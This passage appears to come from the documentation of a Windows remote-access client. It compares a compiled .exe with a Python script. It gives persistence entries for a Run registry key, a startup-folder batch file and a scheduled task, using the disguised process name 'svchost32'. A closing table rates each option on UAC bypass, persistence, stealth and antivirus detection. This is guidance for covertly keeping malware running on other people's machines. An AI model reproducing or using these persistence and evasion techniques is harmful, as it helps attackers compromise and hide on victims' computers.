 **Python script:**
```
HKCU\...\Run\svchost32 = "python.exe C:\Users\...\client.py"
```
❌ Fails without Python

### Startup Folder:

**Compiled .exe:**
```batch
@echo off
start "" "C:\Users\...\svchost32.exe"
```
✅ Works - Direct exe execution

**Python script:**
```batch
@echo off
start "" "python.exe" "C:\Users\...\client.py"
```
❌ Fails without Python

### Scheduled Task:

**Compiled .exe:**
```
Action: C:\Users\...\svchost32.exe
```
✅ Works - Direct exe execution

**Python script:**
```
Action: python.exe "C:\Users\...\client.py"
```
❌ Fails without Python

---

## 📊 Comparison Table

| Feature | Compiled .exe | Python Script (.py) |
|---------|---------------|---------------------|
| **Python Required** | ❌ No | ✅ Yes |
| **Dependencies Required** | ❌ No (bundled) | ✅ Yes (pip install) |
| **File Size** | 📦 30-80 MB | 📄 600 KB |
| **Portability** | ✅ 100% Portable | ❌ Needs Python env |
| **UAC Bypass** | ✅ Works | ⚠️ Only if Python installed |
| **Persistence** | ✅ Works | ⚠️ Only if Python installed |
| **Stealth** | ✅ Better (single .exe) | ⚠️ Worse (visible .py) |
| **Detection** | ⚠️ Larger file (AV scan) | ✅ Smaller file |
| **Startup Time** | ⚠️ Slower (extraction) | ✅ Faster |
| **Works on Clean PC** | ✅ YES | ❌ NO |

---